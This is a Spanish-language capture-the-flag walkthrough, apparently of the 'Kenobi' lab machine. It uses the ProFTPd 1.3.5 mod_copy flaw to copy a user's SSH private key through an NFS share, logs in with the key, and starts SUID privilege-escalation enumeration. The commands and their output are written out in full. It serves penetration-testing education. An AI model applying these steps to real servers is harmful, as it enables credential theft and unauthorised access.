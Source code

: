 ```js
ProFTPd 1.3.5 - File Copy                         | linux/remote/36742.txt
```

- Analizamos en qué consiste esta exploit y podemos concluir que esta versión de proftpd permite `copiar y pegar` archivos dentro del sistema sin autenticación alguna.

- Para esto, iniciamos sesión FTP con crendeciales incorrectas, y cuando estemos en la linea de comandos `FTP`, podemos usar los comandos "site cpfr ubicación" y "site cpto ubicación" para copiar y pegar archivos del sistema víctima respectivamente.

- Como habíamos visto con anterioridad, existe la posibilidad de que la "id_rsa" del usuario `"kenobi"` se encuentre creada, y además, como nos aprovechamos del servicio `NFS` y tenemos acceso al directorio "var" del sistema, lo que podemos hacer es copiar el archivo "id_rsa" del usuario "kenobi" y pegarlo en un directorio con permisos de escritura dentro de "/var" el cual, por defecto suele ser "/tmp":

```
ftp> site cpfr /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
ftp> site cpto /var/tmp/id_rsa
250 Copy successful
```

- Hecho esto podremos leer el archivo `"id_rsa"` que hemos copiado en el directorio "/var/tmp".

- Copiamos el contenido de este archivo, lo pegamos en un archivo del mismo nombre dentro de nuesta máquina atacante, le damos permisos de ejecución y lo usamos para acceder al sistema como el usuario "kenobi" sin contraseña:

```bash
$nano id_rsa
$chmod 600 id_rsa
$ssh -i id_rsa kenobi@10.10.71.110
```

<br><br>

# ESCALANDO PRIVILEGIOS:

# Path Hijacking Privilege Escalation:

- Buscamos binarios con permisos `SUID`:

```bash
$find / -perm -4000 2>/dev/null
```

```js
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
```
